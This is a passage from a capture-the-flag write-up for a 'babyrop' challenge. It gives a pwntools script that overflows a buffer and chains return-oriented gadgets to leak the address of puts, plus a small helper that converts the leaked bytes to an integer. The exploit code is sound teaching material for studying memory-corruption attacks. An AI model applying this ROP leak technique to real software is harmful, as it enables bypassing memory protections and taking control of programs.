- `puts_plt : 0x401110`


```python
from pwn import *



context.log_level = 'debug'
offset = b'a'*88

puts_plt = p64(0x401110)
puts_got = p64(0x404028)


ret = p64(0x40101a)
poprax_ret          = p64(0x401c28)
poprdi_ret          = p64(0x401c60)
poprsi_ret          = p64(0x401c58)
poprdx_ret          = p64(0x401c38)
syscall = p64(0x401c30)

payload_leak = offset
payload_leak += poprdi_ret
payload_leak += puts_got
payload_leak += puts_plt

r = process('/challenge/babyrop_level5.0')
r.recvuntil(b'Return Oriented Programming!\n')
r.sendline(payload_leak)


r.interactive()
```

![image](img/level5/24.png)

Okey, it leaks for me the address of puts; I will take it as the hex value


```python
def bytes_to_hex(data):
  """Converts bytes to a hex  and reverses the byte order.

  Args:
    data: A byte string.

  Returns:
    A hex  with the byte order reversed.
  """
  return int(''.join(['{:02x}'.format(b) for b in reversed(data)]), 16)
```
